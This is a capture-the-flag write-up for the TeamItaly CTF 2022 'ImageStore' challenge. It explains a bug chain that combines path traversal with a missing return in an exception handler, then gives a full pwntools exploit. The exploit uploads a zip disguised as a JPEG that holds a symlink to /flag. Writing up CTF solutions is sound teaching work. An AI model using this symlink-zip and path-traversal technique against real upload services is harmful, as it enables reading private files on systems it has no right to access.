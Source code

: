 # TeamItaly CTF 2022

## ImageStore (10 solves)

I keep too many photos of pizzas on my computer and my drive is almost full.
Unfortunately I can't simply upload them to Google Photos because I don't like public cloud.
So I decided to write my own CLI service to store all my images!

Can you read `/flag`?

This is a remote challenge, you can connect to the service with:

`nc imagestore.challs.teamitaly.eu 15000`

Tip: to input a line longer than 4095 characters on your terminal, run `stty -icanon; nc imagestore.challs.teamitaly.eu 15000`.

### Solution

The goal is to place a symlink to `/flag` in the uploads folder.
There's a check against that in function 4, but we notice that there's a missing `return` instruction on an exception handler, so we can call `unzip` on an inexistent path, `/tmp/images.zip`, and it will try to open `/tmp/images.zip.zip`.
We just need to place our payload on that location, and to do that we abuse function 1, which has a path traversal bug.
We upload a zipfile with JPEG Magic Bytes at the beginning, containing the symlink.
We call it `../../tmp/images.zip.zip` so it gets placed in the right place, and then we call function 4 with an invalid base64.
Our payload gets extracted, and then we can download the flag with function 2.

### Exploit

```python
import os
import subprocess
from pwn import *

JPEG_MAGIC_BYTES = b'\xff\xd8\xff\xdb'

HOST = os.environ.get("HOST", "imagestore.challs.teamitaly.eu")
PORT = int(os.environ.get("PORT", 15000))

conn = remote(HOST, PORT)

conn.recvuntil(b'> ')
conn.send(b'1\n') # upload an image

initial_path = os.getcwd()
os.chdir('/tmp')

try:
    os.remove('file.zip')
    os.remove('flag')
except:
    pass

subprocess.run(['ln', '-s', '/flag', 'flag'])
subprocess.run(['zip', '--symlinks', 'file.zip', 'flag'])

with open('file.zip', 'rb') as zipfile:
    content = zipfile.read()

os.remove('file.zip')
os.remove('flag')

os.chdir(initial_path)

payload = b64e(JPEG_MAGIC_BYTES + content).encode()

conn.recvuntil(b': ') # image name
conn.send(b'../../tmp/images.zip.zip\n')

conn.recvuntil(b': ') # image payload
conn.send(payload + b'\n')

conn.recvuntil(b'> ')
conn.send(b'4\n') # upload multiple images

conn.recvuntil(b': ') # zip payload
conn.send(b'/\n') # invalid base64

conn.recvuntil(b'> ')
conn.send(b'2\n') # download an image

conn.recvuntil(b'> ')
conn.send(b'0\n') # flag
conn.recvuntil(b'\n')

flag = b64d(conn.recvuntil(b'\n')).decode()

conn.close()

# Print the flag to stdout
print(flag)
```
